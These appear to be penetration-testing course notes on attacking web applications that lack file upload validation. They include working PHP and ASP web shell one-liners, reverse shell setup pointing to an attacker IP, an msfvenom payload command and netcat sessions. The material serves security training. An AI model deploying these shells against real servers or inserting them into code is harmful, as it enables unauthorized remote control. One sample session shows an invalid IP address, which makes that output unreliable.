 ## Absent Validation

The most basic type of file upload vulnerability is when the web application `does not have any form of validation filters` on the uploaded files.

With this we can directly upload are web shell or reverse shell to the web application, and then visit the uploaded script to interact with the web or reverse shell.

### Arbitrary File Upload

Here we can upload personal files:
![[file_uploads_file_manager.jpg]]

We can upload any file type we want:
![[file_uploads_file_selection_dialog.jpg]]

With no restrictions on the back-end, we may be able to upload arbitrary file types to the back-end server to gain complete control over it.

### Identifying Web Framework

We need to upload a malicious script to test whether we can upload any file type. Most commonly we will upload web shell and reverse shell scripts.

With a web shell the back-end accepts shell commands and prints the output back to us within the web browser. The web shell must be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server. So, the first step would be identify what language runs the web application.

We can often see the web page extension in the URLs, which may reveal the programming language. However, in certain web frameworks and web languages, `Web Routes` are used to map URLs to web pages, in which case the web page extension may not be shown. Furthermore, file upload exploitation would also be different, as our uploaded files may not be directly routable or accessible.

One easy method to determine what language runs the web application is to visit the `/index.ext` page. The `ext` part can be extensions like `php`, `asp`, `aspx`, among others.

For example we may get the same page from `http://SERVER_IP:PORT/` and `http://SERVER_IP:PORT/index.php`, which means that this is indeed a `PHP` web application. We can use a tool like Burp intruder for fuzzing the file extension using a [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) wordlist. This method may not always be accurate, though, as the web application may not utilize index pages or may utilize more then one web extension.

Several other techniques may help identify the technologies running the web application, like using the [Wappalyzer](https://www.wappalyzer.com) extension, which is available for all major browsers. Once added to our browser, we can click its icon to view all technologies running the web application:
![[file_uploads_wappalyzer.jpg]]

We can also run web scanner, like Burp/ZAP or other Web Vulnerability Assessment tools. Once we identify the language running the web application, we may upload a malicious script written in the same language to exploit the web application.

### Vulnerability Identification

As an initial test we can create a basic `Hello World` script to test whether we can execute `PHP` code with our uploaded file.

To do so, we will write `<?php echo "Hello HTB";?>` to `test.php`, and try uploading it to the web application:
![[file_uploads_upload_php.jpg]]

The file appears to have successfully been uploaded, as we get a message saying `File successfully uploaded`, which means that `the web application has no file validation whatsoever on the back-end`. Now, we can click the `Download` button, and the web application will take us to our uploaded file:
![[file_uploads_hello_htb.jpg]]

We can see the `echo` function got executed to print our string, and we successfully executed `PHP` code on the back-end server. If the page could not run PHP code, we would see our source code printed on the page.

## Upload Exploitation

### Web Shells

We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. One good option for PHP is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal like, semi-interactive web shell. Furthermore [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/usr/share/Seclists/Web-Shells` directory.

We can upload any of those shells corresponding to the language of the web application through the vulnerable upload feature, and visit the uploaded file to interact with the web application, for example the `phpbash` web shell:
![[file_uploads_php_bash.jpg]]

### Writing Custom Web Shell

We should also know how to write a basic web shell manually. This is because we may not always have access to online tools.

With `PHP` we can use the `system()` function that executes system commands and prints their output, and pass it the `cmd` parameter with `$_REQUEST['cmd']`, as follows:
```php
<?php system($_REQUEST['cmd']); ?>
```

If we write it to a PHP script and upload it to the web application, we can execute system commands with the `?cmd=` GET parameter (e.g. `?cmd=id`), as follows:
http://SERVER_IP:PORT/uploads/shell.php?cmd=id
![[file_uploads_php_manual_shell.jpg]]

**Tip:** If we are using this custom web shell in a browser, it may be best to use source-view by clicking `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

The same applies to other web frameworks, with the only difference being the functions used. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:
```asp
<% eval request('cmd') %>
```

We can find many web shells online, many of them can be easily memorized. It must be noted that `in certain cases, web shells may not work`. This may be due to the web sever preventing the use of some functions utilized by the web shell, or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations.

### Reverse Shell

We should start by downloading a reverse shell script in the language of the web application. A reliable one for PHP is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

We will need to edit the reverse shell to enter our IP and port, For the `pentestmonkey` script, we can modify lines `49` and `50` and input our machine's IP/PORT:
```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Next, we can start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:
```shell-session
$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Generating Custom Reverse Shell Scripts

It's possible to use the `system` function and pass it a reverse shell command, but it may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However it may not be as easy to memorize as a web shell script. We can use tools like `msfvenom` to generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do as follow for PHP:
```shell-session
$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:
```shell-session
$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag.

While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.
